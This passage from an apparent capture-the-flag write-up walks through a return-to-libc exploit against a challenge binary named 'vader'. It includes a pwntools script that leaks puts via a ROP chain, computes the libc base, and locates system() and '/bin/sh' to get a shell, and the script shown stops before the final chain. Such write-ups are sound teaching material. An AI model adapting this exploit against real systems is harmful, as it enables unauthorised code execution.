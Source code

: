 ![image](https://user-images.githubusercontent.com/10614967/161559510-5038276d-4bd3-4c8c-8aea-392c90631275.png)

### Getting a Shell

At this point, we can determine exactly where the system() function and '/bin/sh' string are in the binary. We can do this by subtracting the offset of puts from the libc leak to get the base address of libc on any given run, then adding the offsets of those locations to that base. Pwntools can do this in a fairly automated fashion like so:
```
libc = ELF('libc6_2.33-3_amd64.so')
libc_base = puts_libc - libc.symbols['puts']
system_libc = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))
```
Then, we can just make a ropchain to call system('/bin/sh', 0, 0), and insert it into our second opportunity to provide input that we've made by calling main() a second time after getting the initial leak.

Here is the full exploit script:
```
from pwn import *

local = 0
if local == 1:
	target = process('./vader')

	pid = gdb.attach(target, "\nb *main+68\n set disassembly-flavor intel\ncontinue")
    #If you want to test this locally, you can insert a line of
    #libc = ELF(insert location of libc.so file used locally here)
else:
	target = remote('0.cloud.chals.io', 20712)
	libc = ELF('libc6_2.33-3_amd64.so')
    
elf = ELF('vader')

pop_rdi = 0x000000000040165b	
pop_rsi_r15 = 0x0000000000401659
pop_rcx_rdx = 0x00000000004011cd
pop_r8 = 0x00000000004011d9
pop_rdx = 0x00000000004011ce


print(target.recvuntil(b'Now I am the master >>>'))
payload = cyclic(200)
padding = b'a' * 40
payload = padding
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.symbols['puts'])
payload += p64(elf.symbols['main'])

target.sendline(payload)

leak = target.recvuntil(b'MMMMMMMMMMMMMMM').strip(b'\nMMMMMMMMMMMMMMM')[1:]
print(leak)
puts_libc = u64(leak+ b'\x00' * 2)


print(target.recvuntil(b'Now I am the master >>>'))
print(hex(puts_libc))

libc_base = puts_libc - libc.symbols['puts']
system_libc = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))
```